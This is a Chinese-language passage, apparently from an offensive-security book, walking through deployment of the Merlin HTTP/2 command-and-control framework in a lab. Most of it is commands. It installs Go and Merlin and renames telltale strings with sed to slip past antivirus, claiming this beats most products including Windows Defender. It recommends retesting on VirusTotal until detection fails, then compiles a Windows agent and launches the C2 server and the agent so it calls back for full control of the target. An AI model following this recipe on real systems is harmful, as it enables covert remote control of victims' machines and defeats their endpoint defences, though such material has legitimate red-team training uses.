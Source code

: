 要开始使用 Merlin，首先需要安装 Golang 环境。这将允许你自定义可执行代理并添加后期利用模块——当然，这是非常鼓励的。

使用以下命令安装 Golang 和 Merlin：

```
root@Lab:~/# **add-apt-repository ppa:longsleep/golang-backports**
root@Lab:~/# **apt update && sudo apt install golang-go**
root@Lab:~/# **go version**
go version go1.13 linux/amd64

root@Lab:~/# **git clone https://github.com/Ne0nd0g/merlin && cd merlin**
```

Merlin 的真正创新之处在于它依赖 HTTP/2 与其后端服务器通信。与 HTTP/1.x 不同，HTTP/2 是一种二进制协议，支持许多提升性能的特性，比如流复用、服务器推送等等（有一个很好的免费资源详细讨论了 HTTP/2，地址是[`daniel.haxx.se/http2/http2-v1.12.pdf`](https://daniel.haxx.se/http2/http2-v1.12.pdf)）。即便一个安全设备捕获并解密了 C2 流量，它也可能无法解析压缩后的 HTTP/2 流量，最终只是将其原封不动地转发。

如果我们直接编译一个标准代理，它会立刻被任何常规的防病毒软件通过简单的字符串查找给识别出来，尤其是查找常见的显眼术语。因此我们需要做一些调整。我们会重命名像`ExecuteShell`这样的可疑函数，并删除原始包名`github.com/Ne0nd0g/merlin`的引用。我们将使用经典的`find`命令来查找包含这些字符串的源代码文件，并将其输出传递给`xargs`，后者会调用`sed`来替换这些可疑术语为任意单词：

```
root@Lab:~/# **find . -name '*.go' -type f -print0 \**
**| xargs -0 sed -i 's/ExecuteShell/MiniMice/g'**

root@Lab:~/# **find . -name '*.go' -type f -print0 \**
**| xargs -0 sed -i 's/executeShell/miniMice/g'**

root@Lab:~/# **find . -name '*.go' -type f -print0 \**
**| xargs -0 sed -i 's/\/Ne0nd0g\/merlin/\/mini\/heyho/g'**

root@Lab:~/# **sed -i 's/\/Ne0nd0g\/merlin/\/mini\/heyho/g' go.mod**
```

这种粗暴的字符串替换可以绕过 90%的防病毒解决方案，包括 Windows Defender。不断调整并将其与像 VirusTotal 这样的平台（[`www.virustotal.com/gui/`](https://www.virustotal.com/gui/)）进行测试，直到你通过所有测试。

现在让我们在*output*文件夹中编译一个代理，稍后我们会将其放到 Windows 测试机上：

```
root@Lab:~/# **make agent-windows DIR="./output"**
root@Lab:~/# **ls output/**
merlinAgent-Windows-x64.exe
```

一旦在机器上执行，*merlinAgent-Windows-x64.exe*应该会连接回我们的 Merlin 服务器，并允许完全控制目标。

我们通过`go run`命令启动 Merlin C2 服务器，并通过`-i 0.0.0.0`选项指示它监听所有网络接口：

```
root@Lab:~/# **go run cmd/merlinserver/main.go -i 0.0.0.0 -p 8443 -psk\**
`strongPassphraseWhateverYouWant`

[-] Starting h2 listener on 0.0.0.0:8443

Merlin>>

We execute the Merlin agent on a Windows virtual machine acting as the target to trigger the payload:

PS C:\> **.\merlinAgent-Windows-x64.exe -url https://192.168.1.29:8443 -psk\**
`strongPassphraseWhateverYouWant`
```
